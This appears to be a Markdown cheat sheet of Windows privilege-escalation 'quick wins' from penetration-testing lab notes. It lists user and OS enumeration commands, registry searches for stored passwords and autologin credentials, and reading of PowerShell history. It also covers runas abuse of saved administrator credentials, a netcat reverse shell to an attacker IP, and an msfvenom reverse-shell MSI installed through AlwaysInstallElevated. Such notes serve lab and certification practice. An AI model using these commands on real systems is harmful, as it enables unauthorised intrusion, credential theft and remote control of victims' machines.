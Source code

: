 # Quick Wins

## Run Powershell

```powershell
powershell -ep bypass
```

## PowerShell History

```powershell
# GET THE PATH TO THE LOG FILE
(Get-PSReadlineOption).HistorySavePath

# DEFAULT PATH
$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# USER PATH
C:\Users\username\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## User Enumeration

```powershell
whoami
whoami /priv
whoami /groups
whoami /all
net user
net user bob
net user administrator
```

## OS Enumeration

```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
```

## Hot Fixes

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

## Open Ports

```powershell
netstat -ano   # Compare internal/external ports open
netstat -ano | findstr "127.0.0.1"  # Get only local ports open

# FOUND INTERESTING LOCAL PORT? FORWARD IT! (nickel machine)
ssh -N -L 0.0.0.0:1337:127.0.0.1:14147 ariah@192.168.245.99
```

## Check Firewall

```powershell
netsh firewall show state        # Is it enabled?
netsh firewall show config       # Check the ports/rules
```

## Find Passwords

### In the registry

```powershell
reg query HKLM /f password /t REG_SZ /s    # Maybe try 'pass' instead of 'password'
reg query HKCU /f password /t REG_SZ /s    # Maybe try 'pass' instead of 'password'
```

### Autologin

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

## RunAS

```powershell
cmdkey /list    # If return "User: HOSTNAME/Administrator" we can run cmds as Administrator using stored creds

# Example
c:/Windows/System32/runas.exe /user:HOSTNAME\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\proof.txt > C:\Users\lowprivuser\proof.txt"

# Reverse Shell
c:\Windows\System32\runas.exe /user: ACCESS\Administrator /savecred "nc.exe -e cmd.exe 192.168.x.x 4444"
```

## AlwaysElevated

```powershell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated      # Should return 0x1
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated      # Should return 0x1
msvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=4444 -f msi -o setup.msi   # Create a rev shell (kali)
msiexec /i "C:\Windows\Temp\shell.msi"  # Install/run the rev shell (win)
```